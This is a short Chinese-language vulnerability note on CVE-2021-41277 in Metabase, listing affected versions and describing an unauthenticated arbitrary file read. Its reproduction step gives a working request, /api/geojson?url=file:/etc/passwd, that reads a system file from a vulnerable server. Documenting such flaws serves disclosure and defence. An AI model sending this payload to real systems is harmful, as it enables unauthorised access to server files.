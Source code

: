 ```yaml
---
title: cve_2021_41277
date: 2021-11-21 22:40:50
author: sec
---
```

# cve_2021_41277
# Metabase概述

Metabase可以帮助你把数据库中的数据更好的呈现给更多人，数据分析人员通过建立一个”查询“（Metabase中定义为Question）来提炼数据，再通过仪表盘（Dashboards）来组合展示给公司成员

# 漏洞影响版本

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```



# 漏洞概述

该漏洞的某个地址存在未授权访问，并且能够进行任意文件的读取

# 漏洞复现

对存在该漏洞的网站进行拼接`/api/geojson?url=file:/etc/passwd`

复现截图

![在这里插入图片描述](img/0f120f7e03794f4b83cd6619af43c713.png)


